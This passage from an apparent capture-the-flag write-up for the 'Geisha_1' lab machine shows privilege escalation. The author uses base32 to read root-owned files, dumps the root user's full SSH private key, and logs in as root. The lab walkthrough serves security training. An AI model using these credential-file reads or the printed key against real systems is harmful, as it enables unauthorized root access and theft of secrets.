 Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/base32/), we confirm that we can read arbitrary files as root:

~~~
LFILE=file_to_read
base32 "$LFILE" | base32 --decode
~~~

After failing to read `/root/root.txt` (file doesn't exist), I was able to find that SSH permits connection as `root` and found the `root` SSH private key:

~~~
geisha@geisha:~$ base32 "/root/.ssh/id_rsa" | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----
~~~

Save the file locally, give it appropriate privileges and connect as `root`:

~~~
kali@kali:/data/Geisha_1/files$ chmod 400 root.key 
kali@kali:/data/Geisha_1/files$ ssh -i root.key root@geisha.box
load pubkey "root.key": invalid format
Linux geisha 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1+deb10u1 (2020-04-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May  9 12:03:57 2020 from 192.168.1.21
root@geisha:~# pwd
/root
~~~
